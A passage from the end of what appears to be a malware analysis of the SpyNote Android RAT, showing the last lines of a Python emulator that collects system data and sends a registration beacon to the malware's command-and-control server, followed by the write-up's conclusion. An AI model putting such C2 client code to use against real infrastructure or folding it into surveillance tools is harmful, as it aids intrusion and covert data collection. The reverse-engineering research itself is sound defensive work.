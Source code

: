 ```python

    sys_info_str = collect_data()
    send_to_c2("-1", sys_info_str.encode()) # Send initial registration beacon to C2 server

if __name__ == "__main__":
    main()
```
 
## Conclusion

This analysis of SpyNote Android malware has demonstrated the sophisticated nature of modern mobile threats and the critical importance of understanding C2 communication protocols. By reverseing the C2 handshake mechanism and developing a functional Python emulator, we've exposed the underlying infrastructure that enables this RAT's extensive surveillance capabilities.


